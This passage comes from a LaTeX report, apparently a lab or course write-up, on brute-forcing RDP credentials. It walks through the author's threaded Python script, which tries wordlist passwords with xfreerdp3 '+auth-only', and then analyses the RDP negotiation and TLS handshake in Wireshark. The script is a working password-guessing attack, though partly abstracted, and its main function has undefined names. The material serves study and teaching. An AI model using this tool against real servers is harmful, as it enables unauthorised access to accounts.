	
\includegraphics[scale=0.15]{images/freerdpnonono.png}
	\centering
	\caption{Showing that the \texttt{libfreerdp3} package is installed but not found}
\end{figure}\abc
Using my script, I can now obtain the credentials and generate a command to connect to the server with the username and password of the target user, as demonstrated in Figure 21. The flags in my tool have the same meaning as those in Hydra, with the only exception being the use of the \texttt{-h} flag to specify the host.
\begin{figure}[h]
	
\includegraphics[scale=0.35]{images/rdpburteforce.png}
	\centering
	\caption{Obtaining the credentials of the user}
\end{figure}\abc \newpage
\subsubsection{Explaining My Own RDP Brute-Forcing Script}
Instead of explaining the actual code, I will describe an abstracted version, as redundant lines or error handling are not necessary to understand how it works. \abc
After the imports, I define a threading event called \texttt{password\_found}, which is set once the correct password is found. All threads or workers can check whether this variable is set to determine whether they should continue running or exit.
\begin{lstlisting}[language=python]
import subprocess, threading, argparse, concurrent.futures

# defining a threading event
password_found = threading.Event()
\end{lstlisting}
Now, the \texttt{run\_command} function uses the \texttt{subprocess} library and takes the host, user, port, and password as arguments. It returns the status code of the execution, as well as \texttt{stdout} and \texttt{stderr}. The \texttt{xfreerdp3} utility provides the \texttt{+auth-only} option, which allows authentication to a server without establishing a full session, as shown in Figure 22. Additionally, after running the command, we can use \texttt{echo \$status} to view the exit code of the last executed command. Since I use the Fish shell, this differs from the \texttt{\$?} variable used in Bash or Zsh. \cite{fish-docs-faq}
\begin{figure}[h]
	
\includegraphics[scale=0.18]{images/auth-only-status.png}
	\centering
	\caption{Obtaining the exit code of the \texttt{xfreerdp3} command}
\end{figure}\abc
\begin{lstlisting}[language=python]
# Run login attempt and return (exit code, stdout, stderr)
def run_command(host, user, port, password):
    cmd = ["xfreerdp3", f"/v:{host}:{port}", f"/u:{user}",
        f"/p:{password}", "+auth-only"]
    try:
	# running the command itself
        result = subprocess.run(cmd, capture_output=True, text=True)
	# returning the obtained results
        return result.returncode, result.stdout.strip(), result.stderr.strip()
    except:
        return -1, "", "Error"
\end{lstlisting}
Next, the \texttt{worker} function is the component that actually calls \texttt{run\_command} and executes \texttt{xfreerdp3}. It is executed by each thread and takes the arguments \texttt{args} and \texttt{passwords}, where \texttt{passwords} refers to the subset of the wordlist assigned to that particular worker. The original wordlist is split evenly across all workers into smaller chunks, each of which is passed to a separate instance of the \texttt{worker} function. \abc
The \texttt{worker} function iterates over the provided list of passwords and first checks whether the \texttt{password\_found} variable is set. If it is, the function returns immediately. If not, it calls \texttt{run\_command} with the current username and password. If the password is found, the \texttt{password\_found} variable is set, and the function returns \texttt{True}.\newpage
\begin{lstlisting}[language=python]
# Worker tries passwords until success or stop signal
def worker(args, passwords):
    for pw in passwords:
        if password_found.is_set(): return
	# executing the command
        code, _, _ = run_command(args.host, args.user, args.port, pw)
	# checking for sucessfull authentication
        if code == 131:
            print(f"SUCCESS: {pw}")
            password_found.set()
            return True
    return False
\end{lstlisting}
The \texttt{main} function begins by creating a new \texttt{ArgumentParser} object. Using the \texttt{add\_argument} method, all required arguments are added. Since the code for each argument is repetitive, I only included one line as an example. After this, the \texttt{args} variable is defined by calling \texttt{parser.parse\_args()}, which parses the input and retrieves the values for the variables.\abc
The password list file is then read and converted into a list, which is split into evenly sized chunks. A thread pool is created using the maximum number of workers, and a \texttt{futures} array is initialized to store the results from each thread. Each chunk of the password list is passed into the \texttt{worker} function using \texttt{executor.submit}, which runs the function in its own separate thread. The result is appended to the \texttt{futures} array.\abc
The loop then waits for all threads to complete before proceeding. Finally, it checks whether the \texttt{password\_found} variable is set. If it is not, a message is printed indicating that the password could not be obtained.
\begin{lstlisting}[language=python]
def main():
    parser = argparse.ArgumentParser()
    parser.add_argument("-u", "--user", required=True)
    # ... other arguments ...
    args = parser.parse_args()

    pwlist = []
    # read single password or load list from file
    with open(args.Password_list) as f:
	for line in f:
	    pwlist.append(line.rstrip('\n'))

    # run with or without threading
    if args.threads == 1:
        worker(args, pwlist)
    else:
        chunks = split_list(pwlist, args.threads)
	# creating a thread pool
	with concurrent.futures.ThreadPoolExecutor(max_workers=num_workers) \
	as executor:
	    futures = []
	    for i in range(len(split_pw_list)):
	        passwords_chunk = split_pw_list[i]
	        future = executor.submit(
		    worker_function, args, passwords_chunk)
	            futures.append(future)
            # waiting for all threads to finish
	    for future in concurrent.futures.as_completed(futures):
	        if future.result():
		    break
	
    if not password_found.is_set():
        print("Password not found")
\end{lstlisting}\newpage
\subsubsection{Analyzing Network Traffic with Wireshark}
When inspecting the traffic of an \texttt{RDP} connection, we can see that only two RDP requests are sent: a \texttt{Negotiate Request} and a \texttt{Negotiate Response}. The \texttt{Negotiate Request} is used by the client to advertise the supported security protocols, as shown in Figure 23. \cite{rdp-negotiation-request}
\begin{figure}[h]
	
\includegraphics[scale=0.22]{images/rdpneg req.png}
	\centering
	\caption{Viewing the \texttt{RDP Negotiate Request}}
\end{figure}\abc
The server replies with the protocol to use based on the client’s advertisement, which in this case is \texttt{CredSSP} (Credential Security Support Provider). \texttt{CredSSP} provides an encrypted \texttt{TLS} channel, over which the client authenticates using the Simple and Protected Negotiate (\texttt{SPNEGO}) protocol with either Microsoft Kerberos or Microsoft NTLM. As shown in Figure 24. \cite{alvinashcraft_credential_2021}
\begin{figure}[h]
	
\includegraphics[scale=0.22]{images/rdp neg res.png}
	\centering
	\caption{Viewing the \texttt{RDP Negotiate Response}}
\end{figure}\abc \newpage \abc
After selecting the protocol, a \texttt{TLS} handshake occurs between the client and the server. During this handshake, both parties agree on the TLS version, choose a cipher suite, authenticate the server’s identity via its public key and the digital signature of an SSL certificate authority, and generate session keys in order to use symmetric encryption after the handshake is complete. \abc
First, a \texttt{Client Hello} message is sent, which initiates the handshake by specifying the \texttt{TLS} version, supported cipher suites, and a string of random bytes known as the \texttt{Client Random}. \abc
This is followed by a \texttt{Server Hello} message, in which the server sends its \texttt{SSL certificate}, the chosen cipher suite, and another randomly generated string of bytes called the \texttt{Server Random}. \abc
Next, the client verifies the certificate to confirm the server’s identity. It then sends one more random string of bytes called the premaster secret, encrypted with the server’s public key. The server decrypts it and responds with a confirmation message, indicating that the session keys have been successfully established and application data can now be exchanged over the encrypted connection. \abc
Finally, when the client terminates the connection, an \texttt{Encrypted Alert} message is sent, signaling the end of the encrypted session. This is followed by a TCP \texttt{FIN, ACK} sequence from the client, which the server acknowledges. The connection is ultimately closed with a \texttt{RST} and \texttt{ACK} flag from the client, thus ending the session. The handshake is annotated in Figure 25, and the end of the connection can be seen in the last four frames on screen.\cite{tls-encryped-alert, noauthor_what_nodate} \abc
Whether or not the \texttt{RDP} authentication was successful cannot be directly observed, as all communication is wrapped inside encrypted \texttt{TLS} packets, making it appear identical in Wireshark. The only indicator is the amount of application data transmitted, from which it can be inferred whether the client briefly connected for authentication only or simply transmitted credentials over the \texttt{TLS} connection before the authentication failed.
\begin{figure}[h]
